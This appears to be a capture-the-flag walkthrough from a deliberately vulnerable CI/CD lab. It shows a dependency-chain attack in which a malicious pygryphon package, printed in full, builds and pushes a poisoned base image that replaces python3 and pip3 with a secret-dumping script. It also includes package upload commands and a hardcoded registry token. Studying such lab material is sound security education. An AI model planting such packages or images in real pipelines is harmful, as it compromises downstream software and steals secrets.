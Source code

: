 [![CICD-SEC-3 Dependency Chain Abuse](https://img.shields.io/badge/CICD--SEC--3-Dependency%20Chain%20Abuse-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/dependency-chain-abuse/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)


Let's explore what we have when signing in to the compromised GitLab:
You are the maintainer of *pygryphon* package, there are also public projects *nest-of-gold* and *awesome-app* which we have a read-only access.
<BR><BR>
As the instructions of this challenge hint us, let's try to see if we can find any reference to *Flag11*.
  <BR>
A simple search tells us it is being referenced by *nest-of-gold* project 
  <BR><BR><BR>

![grpyhon](../images/gryphon-1.png "grpyhon")

  <BR><BR><BR>
We can see that *Flag11* is used in a pipeline that ships a container used in production.
Let's go to this pipeline scheduling, we can see that user named "gryphon" is the owner of this pipeline, and this user is also the owner of the *awesome-app* project's pipeline.
  
Diving into *awesome-app*, it is using our pygrphon package as a dependency!  
this is what the *requirments.txt* file looks like:
  
 <pre><code>
 
 --extra-index-url http://token:cd79dd622c6d463a574635e874765c0b@gitlab/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi/simple --trusted-host gitlab

pytest==7.2.0
flask==2.0.3
Werkzeug==2.0.3
pygryphon==1.0.13
 
</code></pre> 
  <BR><BR><BR>

This means we can influence *awesome-app* pipeline by uploading a new malicious python package of *pygrphon*.
Our end goal is within *nest-of-gold* project, how can we influence it's pipeline?
  
In the pipeline of *awesome-app* we can see a PAT behing used named *TOKEN*
<BR>
`docker login -u gryphon -p $TOKEN $CI_REGISTRY`

Because our end goal is to reach the "production" docker produced by *nest-of-gold* pipeline, let's have a look at the Dockerfile inside *nest-of-gold* we can see it is dependent on python:3.8 docker image from nest-of-gold container registry and not the offical registrar.
  
   <pre><code>
 
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]

 
</code></pre> 
  
Here's comes the tricky part 🥸, let's create a malicious pygryphon package that pushes a malicious python3.8 docker base image to *nest-of-gold* container registry, we are able to do so because the "CI_JOB_TOKEN" is not limited to *awesome-app* project.
In this package let's create a script named "python3" that the docker image of *nest-of-gold* will execute mistakenly instead of the actual python3 interpreter.   
pygryphon package content:
  
 <pre><code>
   import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/
COPY python3 /usr/local/bin/pip3"""
PYTHON3 = """#!/bin/bash
env | grep FLAG11 || true"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    This function greets to
    the person passed in as
    a parameter
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    run('chmod +x python3')
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')
    return "Hello, " + name

 </code></pre> 
  
And then build and upload this package to gryphon package registry (after we have configured "gitlab" as our a package registry 
  
   <pre><code>
   pipenv run python3 -m build [path_to_package]
   pipenv run python3 -m twine upload -r gitlab
 </code></pre> 

